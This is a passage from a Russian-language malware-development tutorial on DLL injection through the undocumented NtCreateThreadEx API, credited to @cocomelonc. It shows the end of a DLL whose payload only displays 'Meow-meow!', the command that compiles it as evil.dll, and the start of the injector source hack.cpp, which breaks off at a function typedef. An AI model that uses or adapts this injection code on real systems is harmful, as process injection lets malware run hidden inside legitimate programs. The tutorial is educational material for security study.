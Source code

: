 ```cpp
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, всё довольно просто. Просто выводим всплывающее окно "Meow-meow!". 

Компилируем нашу DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![dll injection 2](./images/29/2021-12-07_09-48.png){width="80%"}    

Теперь давайте рассмотрим исходный код нашего вредоносного кода (`hack.cpp`):


```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
```